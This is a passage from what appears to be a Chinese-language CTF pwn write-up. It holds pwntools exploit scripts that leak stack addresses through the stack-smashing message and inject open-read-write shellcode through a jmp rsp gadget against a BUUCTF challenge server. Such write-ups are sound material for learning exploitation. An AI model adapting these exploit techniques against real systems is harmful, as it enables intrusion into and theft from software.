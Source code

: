 ```python
# 2.leak stack
payload = b'A' * 0x128 + p64(libc_environ)
ru("Please type your guessing flag\n")
sl(payload)

ru("*** stack smashing detected ***: ")

stack_addr = u64(ru('\x7f').ljust(8, '\x00'))
success("stack_addr ==> {}".format(hex(stack_addr)))

# 3.leak flag
flag_addr = stack_addr - 0x168

payload = b'A' * 0x128 + p64(flag_addr)
ru("Please type your guessing flag\n")
raw_input("Ther")
sl(payload)


shell()
```

## 6.BUUCTF-[极客大挑战 2019]Not Bad
orw 需要修改一下pwntools生成的shellcode 长度缩小一些

### exp_bad.py
```python
from pwn import *
# p = process("./bad")
p = remote("node4.buuoj.cn",27878)
context.log_level = 'debug'
context.arch = 'amd64'
# context(os="linux", arch="amd64",log_level = "debug")

r = lambda : p.recv()
rx = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)
rud = lambda x: p.recvuntil(x, drop=True)
s = lambda x: p.send(x)
sl = lambda x: p.sendline(x)
sa = lambda x, y: p.sendafter(x, y)
sla = lambda x, y: p.sendlineafter(x, y)
shell = lambda : p.interactive()

jmp_rsp = 0x0000000000400a01

sc = asm(shellcraft.open('flag'))
sc+= asm(shellcraft.read('rax', 'rsp', 0x30))
# sc+= asm(shellcraft.write(1, 'rsp', 0x30))
sc += asm('''
	push 1
    pop rdi
    /* call write() */
    push 1 /* 1 */
    pop rax
    syscall
	''')

payload = sc.ljust(40, '\x90') + p64(jmp_rsp) + asm("sub rsp, 48; call rsp")
ru("Easy shellcode, have fun!\n")

sl(payload)
```